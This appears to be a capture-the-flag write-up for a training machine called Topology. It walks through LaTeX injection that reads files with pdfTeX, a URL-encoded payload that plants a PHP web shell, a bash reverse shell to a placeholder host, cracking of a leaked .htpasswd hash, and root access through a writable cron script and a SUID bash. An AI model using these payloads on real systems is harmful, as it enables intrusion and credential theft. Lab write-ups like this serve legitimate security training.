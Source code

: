 # Topology

## Enumeration:

Start off with an nmap scan:

```vim
Nmap scan report for 10.10.11.217
Host is up (0.20s latency).
Not shown: 62063 closed tcp ports (conn-refused), 3470 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the website, we see a link to `http://latex.topology.htb` implying the existence of `topology.htb` domain and possibly more subdomains.

Subdomain Enum gets me access to a couple domains:
1. `dev.topology.htb`: This subdomain requires you to log in, and its an Apache Server so we have to see if we can maybe try and read the `.htaccess`
2. `stats.topology.htb`: This just has a `files` subdirectory and 2 PNG's on it which didn't seem too relevant to me 

Going back to `latex.topology.htb`, the web root is actually having a log file, some tex files and some PNG examples of LaTeX equations along with `equation.php`. This subdomain revolves around a LaTeX interpreter (which apparently supports only 1-liners) so we probably have to try and see if we can perform any kind of RCE.

The log files mentions the pdfTex running, so I can only assume my LaTeX code is going to be processed with pdfTex and then can be saved as a PNG. Due to this, it allows us to split the foothold into 2 routes. I will mention how to do both, the intended and the unintended routes.

## Exploit:

### Intended Route:

The intended route requires you to look into the pdfTex, which is an extention of Tex (Typesetting program to make documents). Reading the [pdfTex Documentation](https://texdoc.org/serve/pdftex-a.pdf/0), we can see a number of statements which can perform various functionalities related to PDFs. the one we will look at in particular is the `\pdffiledump` and `\pdfunescapehex`

`\pdffiledump` will dump contents of a file according to a particular length from a particular offset except it is output in hexadecimal, which is why we have to use `\pdfunescapehex` to convert the output from hexadecimal to ASCII.

So our exploit will look like this:
```latex
\pdfunescapehex {\pdffiledump length 2000 {/etc/hostname}}
```

Because of the nature of the web application, fuzzing becomes very difficult so we have to try and manually see if we can get access to some interesting files. I decided to look into the `/var/www/dev/` subdirectory to see if there was anything I can read there and I tried for `.htaccess` and saw the following:

![Image](images/1.png)

This implies the existence of `/var/www/dev/.htpasswd`. So we can try the following to see what we have there:

```latex
\pdfunescapehex {\pdffiledump length 2000 {/var/www/dev/.htpasswd}}
```

![Image](images/2.png)

### Unintended Route:

This Route revolves around writing to a file using LaTeX code. Unfortunately a lot of options like `\immediate`, `\input`, `\write` are blacklisted and we have to look for other alternatives in order to write to it. The webapp states that it only supports 1-liners, however what if there was a way to force a 1-liner into the query?

Because the LaTeX code gets processed from the GET parameter, something like `%0A` which is just a URL-encoded linebreak will function like a normal linebreak allowing you the ability to effectively write multi-line LaTeX code. This opens up the option to a package called `filecontents`.

Looking at the [Documentation](https://latexref.xyz/filecontents.html) we find out that this package allows us to write external files. However the issue (not mentioned in the shown docs) is that the `\begin` statement requires a linebreak to function properly. Fortunately the URL-encoded linebreak seems to do the job. Files created will be stored in the `/tempfiles` directory. We can execute the exploit with the following URL:

```
http://latex.topology.htb/equation.php?eqn=%5cbegin%7bfilecontents*%7d%5boverwrite%5d%7blmao.php%7d%0d%0a%3c%3fphp%20system(%24_REQUEST%5b'cmd'%5d)%3b%20%3f%3e%0d%0a%5cend%7bfilecontents*%7d&submit=
```

The above URL will make a file called `lmao.php` and put `<?php system($_REQUEST['cmd']); ?>`  allowing you to perform RCE and execute bash commands with `http://latex.topology.htb/tempfiles/lmao.php?cmd=id`  where any value put in `cmd` will get executed.

```http
POST /tempfiles/lmao.php HTTP/1.1
Host: latex.topology.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
```

Replace the IP and Port and the above HTTP request should give you a reverse shell.

Once you get onto the machine as `www-data`, you can go to the `/var/www/dev` directory and try to see if there is anything there:

```vim
bash-5.0$ cd /var/www/dev/      
cd /var/www/dev/
bash-5.0$ ls -la
ls -la
total 40
drwxr-xr-x 2 www-data www-data 4096 Jan 17 12:26 .
drwxr-xr-x 6 root     root     4096 May 19 13:04 ..
-rw-r--r-- 1 www-data www-data  100 Jan 17 12:26 .htaccess
-rw-r--r-- 1 www-data www-data   47 Jan 17 12:26 .htpasswd
-rw-r--r-- 1 www-data www-data 1068 Jan 17 12:26 LICENSE
-rw-r--r-- 1 www-data www-data 7101 Jan 17 12:26 index.html
-rw-r--r-- 1 www-data www-data 1715 Jan 17 12:26 script.js
-rw-r--r-- 1 www-data www-data 5730 Jan 17 12:26 styles.css
bash-5.0$ cat .htpasswd
cat .htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

We can see that .htpasswd has a hash (Specifically a Apache md5 hash). We can copy the hash and try to crack it with `john`:

```vim
┌──(kali㉿kali)-[~/topology]
└─$ echo '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > hash
                                                                                                                    
┌──(kali㉿kali)-[~/topology]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:06 DONE (2023-06-12 16:22) 0.1451g/s 144515p/s 144515c/s 144515C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

It gets cracked as `calculus20`. We can now try and ssh into the machine as `vdaisley` and their password.

User Flag is in `/home/vdaisley/user.txt`

## Privilege Escalation:

Running `pspy64`, we can see the following cronjob:

```vim
2023/06/12 08:38:01 CMD: UID=0     PID=4725   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/06/12 08:38:01 CMD: UID=0     PID=4727   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/06/12 08:38:01 CMD: UID=0     PID=4728   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/12 08:38:01 CMD: UID=0     PID=4729   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/12 08:38:01 CMD: UID=0     PID=4730   | /bin/sh /opt/gnuplot/getdata.sh 
```

Looking at `/opt/gnuplot` we can see the following:

```vim
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun 12 08:33 gnuplot
```

`/opt/gnuplot` is world writable and we have the root user executing `getdata.sh` as a cronjob in that subdirectory. So we can edit the `getdata.sh` file using vim and adding a command like `chmod +s /bin/bash` and using vim's `:wq!` to overwrite permissions and add our command into the shell script.

After waiting till the cronjob executes, you can use `bash -p` to get a root shell.

Root Flag can be found in `/root/root.txt`
